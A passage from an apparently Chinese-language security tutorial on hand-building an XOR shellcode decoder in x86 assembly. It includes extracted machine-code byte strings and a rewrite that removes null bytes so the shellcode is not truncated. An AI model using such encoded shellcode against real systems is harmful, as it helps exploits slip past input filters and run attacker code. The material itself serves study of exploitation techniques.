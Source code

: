 ```
		jne decode_loop
	}
}
```



提取出机器码为
`"\x81\xEF\xF0\x08\x00\x00\x8B\xC7\x83\xC0\x28\x33\xC9\x8A\x1C\x08\x80\xF3\x44\x88\x1C\x08\x41\x80\xFB\x91\x75\xF1"`

如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-3-2/2-7.png)

此时又出现\x00字符，实际使用时会被提前截断，所以汇编代码需要作进一步优化：

通过先加后减两步操作，来避免shellcode出现\00字符

**注：**

先减后加会造成越界

先加后减两步操作如下：

`EDI-0X000008F0h=0X0012F720+0X11111111h-0X111119A1h`

由于shellcode前面多了填充数据，所以解码器的偏移也要重新计算，偏移=填充数据长度+解码器长度=0x34+0x26=0x5A

对应完整汇编代码如下：

```
void main()
{
	__asm
	{
		add edi,0X11111111
		sub edi,0X111119A1
		mov eax,edi
		add eax,0x5A
		xor ecx,ecx
decode_loop:
		mov bl,[eax+ecx]
		xor bl,0x44
		mov [eax+ecx],bl
		inc ecx
		cmp bl,0x91
		jne decode_loop
	}
}
```

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-3-2/2-8.png)

如上图，提取机器码为

`"\x81\xC7\x11\x11\x11\x11\x81\xEF\xA1\x19\x11\x11\x8B\xC7\x83\xC0\x5A\x33\xC9\x8A\x1C\x08\x80\xF3\x44\x88\x1C\x08\x41\x80\xFB\x91\x75\xF1"`
